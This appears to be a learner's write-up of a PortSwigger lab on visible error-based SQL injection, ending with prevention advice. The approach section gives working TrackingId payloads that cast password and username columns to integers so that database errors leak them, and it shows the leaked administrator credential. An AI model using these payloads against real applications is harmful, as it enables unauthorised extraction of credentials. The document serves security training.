




# Lab: Visible error-based SQL injection

> **Platform:** PortSwigger Web Security Academy  
> **Module:** SQL Injection  
> **Lab:** Visible error-based SQL injection  
> **Lab Link:** https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based
> **Goal:** Exploit the error based SQL injection vulnerability, in the lab to find the password for user `administrator`.

# My Approach 
At first I induced a database erorr by introducing by trying an equality comparison between the password and an integer. 



After confirming that the vulnerability exists, I tried casting password as an integer.

```text
TrackingId = ...XYZ' AND (SELECT CAST(password AS INT) FROM users WHERE username = 'administrator') --  
```

This query returned and error

```text
Undetermined string literal at.....  SELECT * FROM tracking WHERE id  = '...XYZ' AND (SELECT CAST(password AS INT) FROM use'. Expected char
```

This error revealed an important thing:
> The backend has a length limit for the tracking id.

Note: The above query also had a syntax error, I didn't add any boolean expression after the AND but it doesn't matter much cause the error caused was due to the length breaking the query.




Now, I did two things:
[-] I reduced the length to acceptable limit by stripping off the tracking id's value.
[-] Stripping off the WHERE clause in the injected SQL.

New query was
```text
TrackingId = ' || (SELECT CAST(password AS INT) FROM users) --;
```

It raised the following error
```text
ERROR: invalid input syntax for type integet: "c6xhkjm16ukd022ho03c"
```

This error revealed the password but this was still the very first password in teh users table and I didn't know if it was of the administrator user so i made another check.





I checked for what user this password is

```text
TrackingId = ' || (SELECT CAST(username AS INT) FROM users) -- ;
```

This revealed the very first user of the table which luckily was `administrator`.

```text
ERROR: invalid input syntax for type integet: "administrator"
```



# Vulnerability Summary
This vulnerability arises from not handling database errors gracefully and letting them show on the frontend. This introduces vulnerabilities like visible error-based sql injection often allowing attackers to do two things:
[-] See the structure of the SQL request going to the database.
[-] Access sensitive information from the database.

Both of which we viewed in this example. 

# Preventions
[-] Use parametarized sql queries to prevent the injection.
[-] Don't let database errors show on the UI, instead show generic error messages on frontend that doesn't reveal any information. 
